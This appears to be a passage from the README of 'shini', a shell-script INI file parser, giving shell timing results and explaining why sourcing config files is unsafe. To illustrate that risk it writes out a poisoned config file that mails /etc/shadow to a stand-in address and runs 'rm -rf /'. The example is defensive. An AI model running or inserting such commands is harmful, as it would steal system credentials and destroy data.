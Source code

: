     $ time zsh ./test_perf.sh opcache > /dev/null
    real    0m0.237s

    $ time bash ./test_perf.sh opcache > /dev/null
    real    0m0.313s

    $ time ksh ./test_perf.sh opcache > /dev/null
    real    0m0.543s

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read (or write to) an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it.  A better solution.

### So `shini` just makes my shell script secure?

Erm, no.  Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions
